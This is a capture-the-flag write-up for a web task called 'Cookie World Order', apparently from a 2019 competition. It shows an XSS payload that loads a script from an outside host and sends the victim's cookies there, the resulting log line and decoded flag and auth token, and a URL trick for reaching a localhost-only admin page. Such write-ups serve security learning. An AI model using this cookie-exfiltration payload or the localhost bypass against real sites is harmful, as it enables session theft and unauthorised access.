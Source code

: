 # Cookie World Order (web)
Good job! You found a further credential that looks like a VPN referred to as the cWo. The organization appears very clandestine and mysterious and reminds you of the secret ruling class of hard shelled turtle-like creatures of Xenon. Funny they trust their security to a contractor outside their systems, especially one with such bad habits.  Upon further snooping you find a video feed of those "Cauliflowers" which look to be the dominant lifeforms and members of the cWo. Go forth and attain greater access to reach this creature!

https://cwo-xss.web.ctfcompetition.com/

### Solution

This task is pretty easy to solve. We have a typical XSS attack here.
```html
<SCRIPT SRC="https://mfurga.com/xss.js"></SCRIPT>

<!-- xss.js -->
"use strict";
(function() {
  var req = new XMLHttpRequest();
  req.open(
    "GET", "https://mfurga.com?data=" + btoa(document.cookie), false);
  req.send();
})();
```
```js
104.155.55.51 - - [28/Jul/2019:16:03:51 +0200] "GET /?data=ZmxhZz1DVEZ7M21icjRjM190aGVfYzAwazFlX3cwcjFkX29yZDNyfTsgYXV0aD1UVXRiOVBQQTljWWtmY1ZRV1l6eHk0WGJ0eUwzVk5Leg== HTTP/1.0" 200 1959 "https://cwo-xss.web.ctfcompetition.com/exploit?reflect=%3CSCRIPT/XSS%20SRC=%22https://mfurga.com/xss.js%22%3E%3C/SCRIPT%3E" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/77.0.3827.0 Safari/537.36"

> atob("ZmxhZz1DVEZ7M21icjRjM190aGVfYzAwazFlX3cwcjFkX29yZDNyfTsgYXV0aD1UVXRiOVBQQTljWWtmY1ZRV1l6eHk0WGJ0eUwzVk5Leg==")
"flag=CTF{3mbr4c3_the_c00k1e_w0r1d_ord3r}; auth=TUtb9PPA9cYkfcVQWYzxy4XbtyL3VNKz"
```
In `/admin/controls` we can find the second flag by using the auth cookie.
```
Requests only accepted from 127.0.0.1
```
After some trials, we can use `/watch?livestream=...` for Local File Inclusion attack (LFI) by generating the following URL:
```
https://cwo-xss.web.ctfcompetition.com/watch?livestream=https://cwo-xss.web.ctfcompetition.com@127.0.0.1/admin/controls
```

**FLAG: CTF{3mbr4c3_the_c00k1e_w0r1d_ord3r}**

**FLAG: CTF{WhatIsThisCookieFriendSpaceBookPlusAllAccessRedPremiumThingLooksYummy}**